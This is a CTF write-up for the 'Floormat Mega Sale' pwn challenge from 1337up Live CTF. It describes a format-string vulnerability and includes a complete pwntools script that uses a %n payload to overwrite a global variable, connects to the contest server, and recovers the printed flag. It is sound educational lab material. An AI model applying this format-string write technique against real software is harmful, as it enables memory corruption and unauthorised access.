 You can download challenge file in [here](https://github.com/q11N9/CTF_Writeups/blob/main/CTFpwn/1337up-live-ctf/pwn/Floormat_Mega_Sale/floormat_sale.zip). 

A format-string bug in here:

![image](https://hackmd.io/_uploads/B1iyfzSGyg.png)

**employee_access()** will give us flag if **employee == 0** 

![image](https://hackmd.io/_uploads/SJhMzfBMyl.png)

Address of **employee**:

![image](https://hackmd.io/_uploads/BynXfGBfJl.png)

We can use `%n` to overwrite the value of **employee**
Script: 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./floormat_sale_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("floormatsale.ctf.intigriti.io", 1339)

    return r


def main():
    r = conn()
    # input()
    employee = 0x40408c
    payload = f'%{0x1}c%14$n'.encode()
    payload = payload.ljust(0x20, b'A')
    payload += p64(employee)
    r.sendline(b'6')
    r.sendline(payload)
    # pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```
Run on local:
![image](https://hackmd.io/_uploads/H1dUffHf1x.png)
Run on server: 
![image](https://hackmd.io/_uploads/r1_wzfBz1x.png)

Flag: ```INTIGRITI{3v3ry_fl00rm47_mu57_60!!}```
